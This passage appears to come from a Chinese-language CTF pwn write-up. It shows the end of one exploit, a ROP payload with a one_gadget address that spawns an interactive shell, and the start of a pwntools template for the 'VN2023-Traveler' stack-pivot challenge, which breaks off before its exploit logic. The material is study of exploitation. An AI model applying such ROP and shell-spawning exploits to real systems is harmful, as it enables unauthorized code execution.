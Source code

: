 ```plain
og = libc_base + 0xe3afe

pl =  p64(0) +  p64(r12)+ p64(0) +p64(og) #p64(ret)+p64(rdi)+p64(bin_sh)+p64(system) #5 
#dbg()
p.send(pl)


itr()
```

‍

### VN2023-Traveler

限制0x10大小的栈迁移

```plain
#encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time
import base64
#from ae64 import AE64
#from LibcSearcher import * 

context.os = 'linux'
context.arch = 'amd64'
#context.arch = 'i386'
context.log_level = "debug"

name = './pwn'

debug = 0
if debug:
    p = remote('node4.buuoj.cn',29758)
else:
    p = process(name)


libcso = '/lib/x86_64-linux-gnu/libc-2.31.so'
#libcso = './libc-2.31.so'
libc = ELF(libcso)
#libc = elf.libc
elf = ELF(name)


s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data,num           :u32(p.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(p.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
```